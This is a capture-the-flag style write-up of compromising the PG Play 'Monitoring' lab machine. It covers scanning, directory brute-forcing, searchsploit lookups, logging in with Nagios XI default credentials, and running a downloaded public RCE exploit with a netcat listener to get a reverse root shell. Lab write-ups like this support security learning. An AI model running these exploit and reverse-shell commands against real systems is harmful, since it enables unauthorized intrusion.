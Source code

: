 [<- home](/)

# Monitoring --- PG Play
## [_Manual Exploitation_]
### Enumeration
First I assigned a value to `targ3t` variable in bash and passed it the IP address of the machine to make it easier to operate:
```
targ3t=192.168.247.148
```
Then I did an aggressive scan on the target using `nmap`:
```
nmap -A $targ3t -oN nmap.scan -vv
```
### Port 80
I got curious about port `80` where we have a site `Nagios XI` and a button indicating access to Nagios XI. Once we press it, a login form opens up. So I decided to put it through `dirsearch` and `feroxbuster` scans simultaneously like so:
```
dirsearch -u http://$targ3t -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
feroxbuster -u http://$targ3t -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -o ferox.scan
```
Both yielded interesting results, but more so `feroxbuster` as we have a couple of paths with status code `200`. Upon checking them it doesn't seem to me like they give away any vital information. I went back to the nmap scan results and it shows an ldap port open also, which is running OpenLDAP 2.2.x - 2.3.X. Let's try and see if there are any exploits for it:

### LDAP
```
searchsploit OpenLDAP
```
Looks like all of these are DoS exploits, which we don't need. Let's see if searchsploit has anything for Postfix smtp:

### SMTP
```
searchsploit Postfix
```
There is a number of results, but I like the one that is a python script better:
```
cp $(locate 34896.py) .
```
Let's see how it works:
```
head 34896.py
```
Apparently we just need to indicate a target and an SMTP command:
```
python2 34896.py $targ3t "NOOP"
```
After trying this and other commands, I couldn't get any results whatsoever, so I decided to temporarily go back to the web interface on this machine. I searched Nagios XI in searchsploit and received a number of results for different versions:

### Back to Port 80
```
searchsploit Nagios XI
```
So I became interested if I can get a version on it on port 80 anywhere. Like before, no page has any information about the version of this framework. So I went ahead and used the first python exploit in the results:
```
cp $(locate 44560.py) .
python2 44560.py
```
The usage seems to be dependent on the listener. Let's launch a netcat listener first:
```
nc -lvnp 2298
```
Now let's run the exploit on the target:
```
python2 44560.py -r $targ3t -l 192.168.45.228 -p 2298
```
Seems like the code is broken. After looking into it I saw that it isn't detrimental to the way exploit operates, so I commented it and references to it out. After that the exploit received a 404 Response. So, moving on.

I searched around for Nagios XI docs and found that a default admin username/password pair is nagiosadmin:admin. Filled it in in our login page and it worked. After logging in, we can clearly see that the version of this Nagios XI is `5.6.0`. Let's search the web to exploit it. I quickly found [this exploit](https://github.com/hadrian3689/nagiosxi_5.6.6) on github, let's try it:

### Exploitation
```
wget https://raw.githubusercontent.com/hadrian3689/nagiosxi_5.6.6/refs/heads/main/exploit.py
chmod 777 exploit.py
```
Let's see how it works:
```
python exploit.py -h
```
Let's try it:
```
python3 exploit.py -t http://$targ3t -b /nagiosxi/ -u nagiosadmin -p admin -lh 192.168.45.228 -lp 2298
```
And we have a root shell! Let's grab a flag:
```
cat /root/proof.txt
```
Nice!

## [_Metasploit Exploitation_]
